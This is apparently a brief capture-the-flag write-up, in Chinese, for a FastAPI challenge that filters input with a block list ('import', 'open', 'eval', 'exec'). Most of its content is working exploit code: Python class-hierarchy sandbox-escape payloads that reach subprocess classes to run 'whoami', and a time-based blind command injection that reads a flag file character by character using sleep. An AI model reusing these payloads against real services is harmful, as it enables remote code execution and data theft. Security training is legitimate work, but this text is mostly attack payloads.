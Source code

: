 ## fastapi
https://fastapi.tiangolo.com/

## 解题思路
/docs
/redoc

```python
dir()	
[
"block_list",
"keyword",
"q"
]

block_list
[
"import",
"open",
"eval",
"exec"
]

vars()
{
"q": "vars()",
"block_list": [
  "import",
  "open",
  "eval",
  "exec"
],
"keyword": "exec"
}

str(().__class__.__bases__[0].__subclasses__()[238])
str(().__class__.__bases__[0].__subclasses__()[238]("whoami"))
print(().__class__.__bases__[0].__subclasses__()[238]("whoami"))

str(().__class__.__bases__[0].__subclasses__()[220]("if [ `cut -c 1 /mnt/f1a9` = 'f' ];then sleep 4;fi",shell=True).wait())
```
半无回显模板注入+命令时间盲注

